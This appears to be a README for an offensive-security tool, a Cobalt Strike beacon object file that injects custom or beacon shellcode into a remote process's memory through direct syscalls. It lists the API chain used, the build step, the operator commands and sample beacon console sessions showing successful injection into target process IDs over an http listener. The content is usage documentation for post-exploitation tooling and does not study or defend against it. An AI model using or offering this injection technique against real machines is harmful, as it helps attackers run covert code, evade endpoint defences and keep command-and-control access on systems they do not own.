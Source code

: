 ## Static Syscalls Shellcode Injection BOF (64-bit only)

Beacon object file to:
- Inject shellcode (either custom or beacon) into remote process using NtOpenProcess -> NtAllocateVirtualMemory -> NtWriteVirtualMemory -> NtCreateThreadEx.

Syscalls generated using @jthuraisamy's [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2), @FalconForce's [SysWhispers2BOF](https://github.com/FalconForceTeam/SysWhispers2BOF) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `static_syscalls_inject PID listener_name` - Injects shellcode for beacon into target PID. 
- `static_syscalls_shinject PID path_to_bin` - Injects custom shellcode into target PID.

> NOTE: BOF is for 64-bit use only.

### Custom shellcode
```
beacon> static_syscalls_shinject 4052 C:\Users\user\shellcode\calc.bin
[*] Static Syscalls Shellcode Injection BOF (@ajpc500)
[*] Reading shellcode from: C:\Users\user\shellcode\calc.bin
[+] host called home, sent: 4824 bytes
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> static_syscalls_inject 4972 http
[*] Static Syscalls Shellcode Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 266180 bytes
[+] received output:
Shellcode injection completed successfully!
```